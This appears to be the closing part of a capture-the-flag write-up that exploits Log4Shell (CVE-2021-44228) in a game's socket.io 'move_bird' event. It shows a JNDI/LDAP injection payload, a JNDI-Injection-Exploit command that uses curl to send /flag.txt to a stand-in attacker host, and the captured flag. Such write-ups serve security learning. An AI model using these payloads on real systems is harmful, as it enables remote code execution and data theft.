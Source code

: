 ```js
socket.emit('move_bird', {user_id: 1, x:1, y:1, angle:0});
socket.emit('move_bird', {user_id: 1, x:999999999999999, y:999999999999999, angle:'${jndi:ldap://ATTACKER:1389/ftbqdx}'});
```

An JNDI/LDAP server is required for the exploitation of CVE-2021-44228, i used [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "curl -F x=@/flag.txt https://ATTACKER.com/" -A "ATTACKER"`

- Profit
`srdnlen{I_th1nk_h3_r34lly_m3ss3d_up}`